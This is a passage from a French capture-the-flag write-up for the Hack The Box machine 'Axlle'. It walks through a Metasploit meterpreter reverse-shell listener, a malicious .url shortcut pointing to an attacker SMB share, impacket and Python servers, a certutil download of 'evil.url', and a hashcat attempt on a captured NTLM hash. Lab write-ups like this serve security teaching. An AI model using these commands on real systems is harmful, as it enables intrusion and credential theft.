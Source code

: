 2. Configurer le listener dans Metasploit.

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost YOUR_IP
set lport PORT_NUMBER
run
```

3. Créer le fichier `.url` avec le contenu suivant.

```
[InternetShortcut]
URL=file://YOUR_IP/share/payload.exe
```

4. Lancer un serveur SMB et un serveur web.

```
impacket-smbserver -smb2support share .

python3 -m http.server
```

![smb server](/images/HTB-Axlle/smb-server.png)

5. Placer le fichier .url dans le dossier de test.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/evil.url evil.url
```

![evil url file download](/images/HTB-Axlle/evil_url_download.png)

Après quelques secondes, nous obtenons un shell meterpreter en tant que `dallon.matrix`.

![dallon.matrix shell](/images/HTB-Axlle/dallon_shell.png)

Nous obtenons également le hachage du mot de passe de `dallon.matrix` sur le serveur SMB.

![dallon.matrix password hash](/images/HTB-Axlle/dallon_pwd_hash.png)

Mais nous ne parvenons pas à le craquer.

```
hashcat -a 0 -m 5600 dallon_hash.txt /usr/share/wordlists/rockyou.txt
```

![dallon.matrix password hash crack failure](/images/HTB-Axlle/dallon_hashcrack_fail.png)

Sur le bureau, nous trouvons le drapeau utilisateur.

![user flag](/images/HTB-Axlle/user_flag.png)

### Mouvement latéral (shell en tant que baz.humphries)

Pour l'énumération de l'Active Directory, nous utiliserons [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe).
